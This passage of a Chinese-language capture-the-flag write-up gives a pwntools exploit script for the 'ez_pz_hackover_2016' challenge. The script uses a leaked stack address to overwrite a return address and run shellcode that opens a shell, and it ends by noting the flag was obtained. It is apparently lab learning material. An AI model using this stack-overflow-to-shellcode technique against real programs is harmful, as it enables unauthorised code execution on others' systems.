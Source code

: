 ![](img/09f940e3b15b877d2f72c88567ab279d.png)

故构造exp如下：

```
from pwn import *
context.arch = 'i386'
p = process("./ez_pz_hackover_2016") 
offset = 0x16
verify = b"crashme\x00"

p.recvuntil("lets crash: ")
stack_leak = int(p.recvuntil('\n')[:-1], 16)
log.info("stack leak: " + hex(stack_leak))
payload = verify + b'A' * (offset - len(verify)) + p32(0xdeadbeef)
payload += p32(stack_leak - 0x1c) + asm(shellcraft.sh())

p.sendline(payload)
p.interactive() 
```

运行，得到flag

![](img/2b401324569abc0e2c63b92cc32edc3e.png)
